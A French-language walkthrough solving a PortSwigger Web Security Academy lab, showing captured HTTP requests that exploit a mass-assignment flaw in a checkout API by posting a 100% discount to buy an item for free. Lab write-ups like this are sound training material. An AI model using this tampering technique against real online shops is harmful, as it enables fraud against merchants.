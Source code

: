 # Lab

https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability

## Solution

Quand on ajoute un article à notre panier et qu'on va voir le panier, une requête `GET` est envoyée vers `/api/checkout` :

```http
GET /api/checkout HTTP/2
Host: 0af50058030cc6c38369b60700a9006c.web-security-academy.net
Cookie: session=ld6B4jz1OE6yrA49muOHJsg6XTkZPn1l
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0af50058030cc6c38369b60700a9006c.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153

{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
```

Si on essaie de lancer une requête `PATCH` pour modifier le prix de l'article ou le pourcentage de réduction, on obtient une erreur 405 car la méthode n'est pas autorisée.

On observe le même comportement avec une requête `PUT`.

Par contre avec une requête `POST` en mettant le prix à 0 on obtient une erreur nous indiquant qu'on a pas assez d'argent dans notre compte pour acheter l'article :

```http
POST /api/checkout HTTP/2
Host: 0af50058030cc6c38369b60700a9006c.web-security-academy.net
Cookie: session=ld6B4jz1OE6yrA49muOHJsg6XTkZPn1l
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0af50058030cc6c38369b60700a9006c.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Content-Length: 150

{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":0}]}
```

```http
HTTP/2 201 Created
Location: /cart?err=INSUFFICIENT_FUNDS
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

On peut essayer de modifier le paramètre `percentage` de la réduction :

```http
{"chosen_discount":{"percentage":100},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":0}]}
```

```http
HTTP/2 201 Created
Location: /cart/order-confirmation?order-confirmed=true
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

On peut donc acheter l'article pour 0$ et réussir le lab.